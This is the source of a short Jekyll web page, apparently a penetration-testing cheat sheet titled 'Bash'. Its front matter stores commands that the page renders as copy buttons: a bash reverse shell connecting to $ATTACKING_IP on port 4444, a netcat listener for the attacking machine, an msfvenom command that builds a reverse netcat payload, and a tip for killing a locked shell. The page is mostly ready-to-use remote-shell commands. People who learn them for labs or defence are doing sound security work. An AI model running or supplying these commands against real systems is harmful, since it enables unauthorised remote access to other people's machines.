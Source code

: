 ```yaml
---
layout: topics
page-title: Bash
reverse-shell-vuln: bash -i >& /dev/tcp/$ATTACKING_IP/4444 0>&1
reverse-shell-attacking: nc -lvnp 4444
get-out: kill %
msfvenom: msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
redirect-stderr: find / -name * 2>/dev/null
---
```


{% include copy-code-blocks.html text='Reverse shell (run on vulnerable machine): ' language='bash' code=page.reverse-shell-vuln %}
{% include copy-code-blocks.html text='Reverse shell (run on attacking machine): ' language='bash' code=page.reverse-shell-attacking %}
{% include copy-code-blocks.html text='Get out ok "locked" shell and kill it: CTRL+Z + ' language='bash' code=page.get-out %}
{% include copy-code-blocks.html text='Payload to run on vulnerable machine for reverse shell (through telnet with .RUN): ' language='bash' code=page.msfvenom %}
{% include copy-code-blocks.html text='Redirect error output to null (hide errors): ' language='bash' code=page.redirect-stderr %}
